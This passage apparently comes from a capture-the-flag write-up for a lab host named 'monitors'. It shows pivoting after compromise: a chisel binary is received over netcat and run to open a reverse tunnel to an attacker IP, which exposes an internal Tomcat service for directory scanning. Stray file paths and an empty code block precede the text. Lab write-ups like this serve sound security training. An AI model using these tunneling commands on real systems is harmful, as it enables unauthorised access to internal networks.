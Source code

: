 ```zsh
```

## Tunnel (Chisel)

The service `127.0.0.1:8443` catches my eye,
so we’ll set up a proxy to access the local network:

```zsh
marcus@monitors:~$ nc -l -p 1234 > chisel
marcus@monitors:~$ chmod +x chisel
marcus@monitors:~$ ./chisel client 10.10.14.5:8000 R:8443:127.0.0.1:1080
```

```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ ./chisel server -p 8000 --reverse
2023/09/09 17:23:05 server: Reverse tunnelling enabled
2023/09/09 17:23:05 server: Fingerprint byl8Mf/Bu9BZsKH8mG4H4E3zwSd50oTi+HL4CEFwWc8=
2023/09/09 17:23:05 server: Listening on http://0.0.0.0:8000
2023/09/09 17:23:05 server: session#1: tun: proxy#R:8443=>8443: Listening
```

Chisel then created a tunnel to access `https://localhost:8443/` on our own machine:
![tomcat](./tomcat.png)

```zsh
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ dirsearch -u "https://localhost:8443/"
```
